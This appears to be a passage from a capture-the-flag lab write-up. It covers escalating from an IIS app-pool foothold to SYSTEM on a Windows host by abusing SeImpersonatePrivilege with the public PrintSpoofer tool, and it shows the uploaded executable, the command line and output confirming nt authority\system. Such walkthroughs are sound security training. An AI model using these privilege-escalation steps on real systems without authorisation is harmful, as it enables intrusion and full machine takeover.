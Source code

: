![](Assets/Images/Pasted%20image%2020221212132209.png)

As seen in the screenshot above I was successfully able to gain a foothold on the host machine as user `defaultapppool`. The User.txt flag was located in `c:\Users\Bob\Desktop\user.txt`

**User.txt:**<details><summary>Show Answer</summary></details>

## Privilege Escalation

Since gaining a foothold on the machine, the next step was to look for escalation vectors manually.
The first command I ran was `whoami /priv` to check which privileges could be potentially exploited for a root shell.

![](Assets/Images/Pasted%20image%2020221212142143.png)

The SeImpersonatePrivilege is enabled for the `iis apppool\defaultapppool` user.
A PrintSpoofer exploit exists that can be used to escalate service user permissions on Windows Server 2016, Server 2019, and Windows 10. 
The exploit can be found at: https://github.com/dievus/printspoofer

In this case, I uploaded the executable to the server using the same method as earlier in the smbclient and executed the program with the following command `PrintSpoofer.exe -i -c cmd`


```
c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer.exe -i -c cmd
PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

